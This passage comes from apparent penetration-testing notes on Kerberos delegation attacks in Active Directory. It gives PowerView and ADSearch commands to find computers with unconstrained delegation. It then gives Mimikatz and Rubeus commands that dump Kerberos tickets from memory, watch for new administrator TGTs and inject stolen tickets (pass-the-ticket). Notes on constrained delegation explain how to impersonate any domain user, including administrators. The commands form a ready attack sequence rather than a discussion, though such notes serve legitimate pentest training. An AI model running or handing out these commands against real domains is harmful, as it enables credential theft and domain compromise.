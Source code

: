 ![Screenshot 2024-06-18 at 20-47-52 8 Powerful Kerberos attacks (that analysts hate)](https://github.com/kiro6/penetration-testing-notes/assets/57776872/8ea99855-6224-443c-913c-d0cae96922f2)


### Enumration
```shell
# List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

### Delegation
```shell
# Mimikatz
## Export tickets  
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way
## import ticket
kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi

# Rubeus
## Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Check every 10s for new TGTs
## import ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
## import ticket base64
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:<base64 ticket>


```

## Constrained Delegation
- Constrained delegation `TRUSTED_TO_AUTH_FOR_DELEGATION` is a “more restrictive” version of unconstrained delegation. In this case, a service has the right to impersonate a user to a well-defined list of services.


![Screenshot 2024-06-18 at 20-34-36 8 Powerful Kerberos attacks (that analysts hate)](https://github.com/kiro6/penetration-testing-notes/assets/57776872/a73aff59-eb34-4f43-8c84-f3cf0eeadd38)

![Screenshot 2024-06-18 at 20-47-21 8 Powerful Kerberos attacks (that analysts hate)](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ff8b6f98-4e34-4acb-bcd1-1de1cea0d073)


### Requirements
- Attribute `msds-allowedtodelegateto` identifies the SPNs of services the user
- If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to.
- If a user is marked as `Account is sensitive and cannot be delegated` in AD, you will not be able to impersonate them.
- if the service is computer account you can get shell access but if user account you can not
